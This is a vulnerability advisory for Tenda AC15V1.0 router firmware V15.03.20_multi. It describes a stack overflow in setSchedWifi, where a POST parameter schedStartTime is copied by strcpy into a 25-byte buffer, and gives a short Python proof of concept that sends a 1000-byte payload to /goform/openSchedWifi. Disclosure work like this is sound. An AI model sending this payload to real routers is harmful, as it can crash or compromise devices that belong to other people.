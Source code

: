 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305224534793](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224534793.png)

![image-20240305224846344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224846344.png)

![image-20240314175418750](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175418750.png)

![image-20240305224605215](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224605215.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314175449987](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175449987.png)
